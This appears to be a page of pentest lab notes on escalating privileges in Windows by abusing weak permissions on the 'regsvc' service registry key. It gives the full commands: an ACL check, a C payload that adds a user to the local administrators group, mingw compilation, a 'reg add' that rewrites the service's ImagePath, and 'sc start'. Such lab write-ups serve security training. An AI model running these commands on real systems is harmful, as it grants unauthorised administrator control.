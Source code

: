 # 🚞 regsvc

Regsvc is a common avenue for privilege escalation in Windows systems. The process involves exploiting weak permissions on the regsvc service, enabling an attacker to gain elevated privileges.&#x20;

### Overview:

<figure><img src="../../../../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

the goal of this privesc is to see if we have full control over a registry key and if we do, we can compile a malicious executable in C

let's check if it's vulnerable :

<figure><img src="../../../../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

* **Get-Acl:** This cmdlet retrieves the security descriptor of an object, which includes the access control information.
* **-Path:** Specifies the path to the registry key for the regsvc service.
* **hklm:** Represents the HKEY\_LOCAL\_MACHINE registry hive.
* **System\CurrentControlSet\services\regsvc:** Specifies the specific registry path for the regsvc service.

The `| fl` at the end formats the output using the `Format-List` cmdlet, displaying the ACL properties in a list format.

NT AUTHORITY\INTERACTIVE refers to the locally logged-on user, and providing it with full control means the user has unrestricted access and permissions.

### Escalation <a href="#lecture_heading" id="lecture_heading"></a>

first, let's do a ftp server on our local kali:

I had a few problems on launching the pyftpdlib server, so here is how I managed to solve my problem:

<figure><img src="../../../../../.gitbook/assets/image (412).png" alt=""><figcaption></figcaption></figure>

had the error for the longest time, so I went into the directory where the package was installed to do this:

<figure><img src="../../../../../.gitbook/assets/image (413).png" alt=""><figcaption></figcaption></figure>

now on my Windows machine:

Now go to the tools file, then source file and open a terminal in there:&#x20;

<figure><img src="../../../../../.gitbook/assets/image (414).png" alt=""><figcaption></figcaption></figure>

connect to your ftp with anonymous login&#x20;

and do a `put windows_service.c` file:

<figure><img src="../../../../../.gitbook/assets/image (415).png" alt=""><figcaption></figcaption></figure>

The "put" command in FTP is used to upload or transfer files from the local machine to the remote FTP server. Specifically, in the context of the FTP command line, the "put" command is followed by the name of the local file that you want to upload to the FTP server.

So this means the file has been transfered to our local machine, let's close the ftp connection and gedit the file :thumbsup:

<figure><img src="../../../../../.gitbook/assets/image (416).png" alt=""><figcaption></figcaption></figure>

If you have a good eye you can see the whoami command being executed in the file -> let's explain

**`system("whoami > c:\\windows\\temp\\service.txt");`**: This line uses the `system` function to execute a system command. In this case, the command is `whoami`, which retrieves information about the currently logged-in user. The output of the `whoami` command is then redirected to a file named `service.txt` in the `C:\Windows\Temp` directory.

The code logs information about the user executing the program, which might be used for auditing or tracking purposes.

If modified to perform malicious activities, it could be used to capture sensitive information without the user's knowledge.

Let's get malicious -> change the whoami command with this:

```
cmd.exe /k net localgroup administrators user /add
```

1. **cmd.exe:** This is the Windows Command Prompt executable.
2. **/k:** This switch tells the Command Prompt to execute the command that follows and remain open afterward, allowing you to view the output.
3. **net localgroup administrators user /add:** This command attempts to add a user named "user" to the local administrators group.

<figure><img src="../../../../../.gitbook/assets/image (417).png" alt=""><figcaption></figcaption></figure>

Now exit the text editor and compile the file by typing the following in the command prompt:&#x20;

`x86_64-w64-mingw32-gcc windows_service.c -o x.exe`&#x20;

<mark style="color:yellow;">(NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64')</mark>

Now that we have compiled it, run a simple Python HTTP server on whatever port and transfer the file to your Windows machine:

<figure><img src="../../../../../.gitbook/assets/image (419).png" alt=""><figcaption></figcaption></figure>

went and saved it on the desktop:

<figure><img src="../../../../../.gitbook/assets/image (420).png" alt=""><figcaption></figcaption></figure>

(PS went in conflict with what we did after, put x.exe in the temp file)

now in a new terminal, run this command:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
```

* **`reg add`:** This initiates a new registry entry or modifies an existing one.
* **`HKLM\SYSTEM\CurrentControlSet\services\regsvc`:** Specifies the registry path for the "regsvc" service.
* **`/v ImagePath`:** Sets the "ImagePath" registry entry for the specified service. The "ImagePath" contains the full path to the executable file associated with the service.
* **`/t REG_EXPAND_SZ`:** Specifies the registry value type as REG\_EXPAND\_SZ, which is a type of registry entry that allows expansion of environment variables.
* **`/d c:\temp\x.exe`:** Sets the data for the "ImagePath" registry entry to "c:\temp\x.exe," indicating the location of the executable file for the service.
* **`/f`:** Forces the command to overwrite existing registry entries without prompting for confirmation.

And then start the program with the following:

```
sc start regsvc
```

<figure><img src="../../../../../.gitbook/assets/image (421).png" alt=""><figcaption></figcaption></figure>

this is the before and after of the `net localgroup administrators` command:

<figure><img src="../../../../../.gitbook/assets/image (422).png" alt=""><figcaption><p>our user has been added </p></figcaption></figure>
